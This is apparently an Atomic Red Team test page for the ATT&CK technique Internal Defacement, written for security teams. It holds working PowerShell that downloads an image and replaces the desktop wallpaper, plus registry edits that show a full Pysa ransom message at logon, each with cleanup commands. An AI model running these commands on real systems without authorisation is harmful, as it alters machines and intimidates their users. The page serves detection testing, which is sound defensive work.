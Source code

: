# T1491.001 - Defacement: Internal Defacement

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1491/001)

<blockquote>An adversary may deface systems internal to an organization in an attempt to intimidate or mislead users, thus discrediting the integrity of the systems. This may take the form of modifications to internal websites, or directly to user systems with the replacement of the desktop wallpaper.(Citation: Novetta Blockbuster) Disturbing or offensive images may be used as a part of [Internal Defacement](https://attack.mitre.org/techniques/T1491/001) in order to cause user discomfort, or to pressure compliance with accompanying messages. Since internally defacing systems exposes an adversary's presence, it often takes place after other intrusion goals have been accomplished.(Citation: Novetta Blockbuster Destructive Malware)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Replace Desktop Wallpaper](#atomic-test-1---replace-desktop-wallpaper)

- [Atomic Test #2 - Configure LegalNoticeCaption and LegalNoticeText registry keys to display ransom message](#atomic-test-2---configure-legalnoticecaption-and-legalnoticetext-registry-keys-to-display-ransom-message)

<br/>

## Atomic Test #1 - Replace Desktop Wallpaper

Downloads an image from a URL and sets it as the desktop wallpaper.

**Supported Platforms:** Windows

**auto_generated_guid:** 30558d53-9d76-41c4-9267-a7bd5184bed3

#### Inputs:

| Name                         | Description                                                                        | Type   | Default Value                                                     |
| ---------------------------- | ---------------------------------------------------------------------------------- | ------ | ----------------------------------------------------------------- |
| url_of_wallpaper             | URL pointing to the image file you wish to set as wallpaper                        | url    | https://redcanary.com/wp-content/uploads/Atomic-Red-Team-Logo.png |
| pointer_to_orginal_wallpaper | Full path to where a file containing the original wallpaper location will be saved | string | $env:TEMP&#92;T1491.001-OrginalWallpaperLocation                  |
| wallpaper_location           | Full path to where the downloaded wallpaper image will be saved                    | string | $env:TEMP&#92;T1491.001-newWallpaper.png                          |

#### Attack Commands: Run with `powershell`!

```powershell
$url = "#{url_of_wallpaper}"
$imgLocation = "#{wallpaper_location}"
$orgWallpaper = (Get-ItemProperty -Path Registry::'HKEY_CURRENT_USER\Control Panel\Desktop\' -Name WallPaper).WallPaper
$orgWallpaper | Out-File -FilePath "#{pointer_to_orginal_wallpaper}"
$updateWallpapercode = @'
using System.Runtime.InteropServices;
namespace Win32{

    public class Wallpaper{
        [DllImport("user32.dll", CharSet=CharSet.Auto)]
         static extern int SystemParametersInfo (int uAction , int uParam , string lpvParam , int fuWinIni) ;

         public static void SetWallpaper(string thePath){
            SystemParametersInfo(20,0,thePath,3);
        }
    }
}
'@
$wc = New-Object System.Net.WebClient
try{
    $wc.DownloadFile($url, $imgLocation)
    add-type $updateWallpapercode
    [Win32.Wallpaper]::SetWallpaper($imgLocation)
}
catch [System.Net.WebException]{
    Write-Host("Cannot download $url")
    add-type $updateWallpapercode
    [Win32.Wallpaper]::SetWallpaper($imgLocation)
}
finally{
    $wc.Dispose()
}
```

#### Cleanup Commands:

```powershell
$updateWallpapercode = @'
using System.Runtime.InteropServices;
namespace Win32{

    public class Wallpaper{
        [DllImport("user32.dll", CharSet=CharSet.Auto)]
         static extern int SystemParametersInfo (int uAction , int uParam , string lpvParam , int fuWinIni) ;

         public static void SetWallpaper(string thePath){
            SystemParametersInfo(20,0,thePath,3);
        }
    }
}
'@
if (Test-Path -Path #{pointer_to_orginal_wallpaper} -PathType Leaf) {
     $orgImg = Get-Content -Path "#{pointer_to_orginal_wallpaper}"
     add-type $updateWallpapercode
     [Win32.Wallpaper]::SetWallpaper($orgImg)
}
Remove-Item "#{pointer_to_orginal_wallpaper}" -ErrorAction Ignore
Remove-Item "#{wallpaper_location}" -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #2 - Configure LegalNoticeCaption and LegalNoticeText registry keys to display ransom message

Display ransom message to users at system start-up by configuring registry keys HKLM\SOFTWARE\Micosoft\Windows\CurrentVersion\Policies\System\LegalNoticeCaption and HKLM\SOFTWARE\Micosoft\Windows\CurrentVersion\Policies\System\LegalNoticeText.

[SynAck Ransomware](https://www.trendmicro.com/vinfo/es/security/news/cybercrime-and-digital-threats/synack-ransomware-leverages-process-doppelg-nging-for-evasion-and-infection),
[Grief Ransomware](https://redcanary.com/blog/grief-ransomware/),
[Maze Ransomware](https://cyware.com/research-and-analysis/maze-ransomware-a-deadly-combination-of-data-theft-and-encryption-to-target-us-organizations-8f27),
[Pysa Ransomware](https://www.cybereason.com/blog/research/threat-analysis-report-inside-the-destructive-pysa-ransomware),
[Spook Ransomware](https://community.fortinet.com/t5/FortiEDR/Threat-Coverage-How-FortiEDR-protects-against-Spook-Ransomware/ta-p/204226),
[DopplePaymer Ransomware](https://www.microsoft.com/en-us/wdsi/threats/malware-encyclopedia-description?Name=Ransom:Win32/Dopplepaymer&threatId=-2147221958),
[Reedemer Ransomware](https://blog.cyble.com/2022/07/20/redeemer-ransomware-back-action/),
[Kangaroo Ransomware](https://www.bleepingcomputer.com/news/security/the-kangaroo-ransomware-not-only-encrypts-your-data-but-tries-to-lock-you-out-of-windows/)

**Supported Platforms:** Windows

**auto_generated_guid:** ffcbfaab-c9ff-470b-928c-f086b326089b

#### Inputs:

| Name                 | Description             | Type   | Default Value                                                                                                                                                                 |
| -------------------- | ----------------------- | ------ | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| legal_notice_caption | Title of ransom message | string | PYSA                                                                                                                                                                          |
| legal_notice_text    | Body of ransom message  | string | Hi Company, every byte on any types of your devices was encrypted. Don't try to use backups because it were encrypted too. To get all your data contact us:xxxx@onionmail.org |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
$orgLegalNoticeCaption = (Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LegalNoticeCaption).LegalNoticeCaption
$orgLegalNoticeText = (Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LegalNoticeText).LegalNoticeText
$newLegalNoticeCaption = "#{legal_notice_caption}"
$newLegalNoticeText = "#{legal_notice_text}"
Set-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LegalNoticeCaption -Value $newLegalNoticeCaption -Type String -Force
Set-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LegalNoticeText -Value $newLegalNoticeText -Type String -Force
```

#### Cleanup Commands:

```powershell
Set-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LegalNoticeCaption -Value $orgLegalNoticeCaption -Type String -Force
Set-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LegalNoticeText -Value $orgLegalNoticeText -Type String -Force
```

<br/>
